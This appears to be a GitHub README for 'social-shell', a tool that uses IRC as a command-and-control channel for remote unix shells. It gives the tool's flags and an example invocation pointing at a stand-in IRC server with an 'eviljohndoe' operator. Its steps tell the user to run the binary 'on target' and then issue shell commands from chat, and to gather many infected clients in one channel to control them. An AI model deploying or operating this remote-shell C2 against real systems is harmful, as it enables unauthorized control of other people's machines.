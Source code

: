 # social-shell
A binary to chat with your unix shells on IRC, a binary to utilize IRC software as C2.<br>
Orignally made by [Aalekh Motani](https://github.com/aalekh-ul).<br>

**Usage:**<br>
To get the help menu: <code> ./ircshell -h </code>.<br> 
<br>
**All options**: <code>./ircshell -s [IRC server ip or domain] -c [channel to join] -u [username to join with] -a [username you have to join with ircclients, user who is waiting for output]</code>.<br>
<br>
**Example**: <code>./ircshell -s irc.fakeserver.chat -c fakechannel -u johndoe -a eviljohndoe </code>.<br>
<br>
***Here I am using my own IRC server***

**Step1**:  Join a channel on IRC client. The username you provide here is the username you have to pass to -a switch and channel to -c switch.<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/56ba1bdb-a2c7-4088-bb69-380335a3295a)<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/3be43c0d-a317-4a1e-bd75-9a746bf7f6d3)<br>
<br>
<br>
**Step2**: Run the binary on target.<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/96511953-5991-4b36-81f8-8e569e968fa2)<br>
<br>
<br>
**Step3**: Run the unix command you like from the chat.<r>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/6b716d35-b4cd-488f-b2e4-b7bb931f105f)<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/9de24fbb-b4a2-44ed-a34d-f40fcae05063)<br>
<br>
<br>


**Run the binary on different clients and get them all at one channel to Command and Control them**.<br>





**License**
**GPLv3+:** GNU GPL version 3 or later https://gnu.org/licenses/gpl.html

This is free software: you are free to change and redistribute it.<br>


